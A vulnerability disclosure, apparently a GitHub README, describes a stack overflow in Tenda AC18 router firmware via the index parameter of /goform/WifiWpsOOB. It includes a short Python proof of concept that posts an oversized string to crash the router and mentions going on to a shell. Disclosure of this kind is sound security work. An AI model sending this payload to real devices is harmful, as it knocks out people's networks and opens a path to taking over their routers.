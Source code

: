 # Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/WifiWpsOOB.   The contents obtained by the index parameter are passed to nptr, and then the contents matched by nptr  and put into the s without size checking, resulting in a stack overflow.
![](img/2.png#center)
<hr/>

![](img/3.png#center)
## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/WifiWpsOOB'


headers = {"Cookie": "password=You cookie"}
data = {
    'index': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data, proxies=proxies)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
